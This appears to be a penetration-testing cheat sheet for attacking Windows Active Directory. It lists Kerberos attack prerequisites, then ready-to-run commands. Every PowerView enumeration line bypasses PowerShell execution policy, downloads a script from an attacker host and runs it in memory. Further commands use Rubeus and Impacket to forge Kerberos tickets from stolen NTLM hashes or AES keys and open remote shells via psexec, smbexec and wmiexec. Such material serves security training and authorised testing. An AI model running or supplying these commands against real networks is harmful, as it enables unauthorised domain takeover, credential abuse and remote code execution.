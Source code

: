 
### Attack Privilege Requirements
- Kerbrute Enumeration
	- No domain access required 

- Pass the Ticket
	- Access as a user to the domain required

- Kerberoasting
	- Access as any user required

- AS-REP Roasting
	- Access as any user required

- Golden Ticket
	- Full domain compromise (domain admin) required 

- Silver Ticket
	- Service hash required 

- Skeleton Key
	- Full domain compromise (domain admin) required

### Enumeration

PowerView:
- [USER]
	powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-Domain"
	powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser"
	powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -SPN"
	powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties 		samaccountname,memberof"
	powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainUser -Properties 		samaccountname,description"

[GROUP]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Name 'Domain Admins' "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1');  Get-DomainGroup | where Name -like "*Admin*" | select SamAccountName "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroupMember -Name 'Domain admins' "
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainGroup -Domain 'xor.com'"

[COMPUTER]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-NetComputer | select samaccountname, operatingsystem"
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Get-DomainComputer -Ping "

[SHARED INFO]
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.140/PowerView.ps1'); Find-DomainShare -Verbose"
cd \\fileshare.pentesting.local\FileShare

### Overass The Hash / Pass The Key

- in PowerShell

	- Rubeus
		- Commands
			- `Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt`
		- [Rubeus](https://github.com/GhostPack/Rubeus)

	- PsExec
		- Commands
			- `PsExec.exe -accepteula \\$REMOTE_HOSTNAME cmd`

- in Kali Linux

	- Impacket
		- Commands
			- with Hash
				- `getTGT.py $DOMAIN/$DOMAIN_USER -hashes [lm_hash]:$NTLM_HASH`
			- with aesKey
				- `getTGT.py $DOMAIN/$DOMAIN_USER -aesKey $AES_KEY`
			- with Password
				- `getTGT.py $DOMAIN/$DOMAIN_USER:$PASSWORD`
			- Set TGT for impacket use
				- `export KRB5CCNAME=<TGT_ccache_file>`
			- Execute remote commands
				- `psexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `smbexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
				- `wmiexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
		- [Impacket](https://github.com/SecureAuthCorp/impacket/releases/)
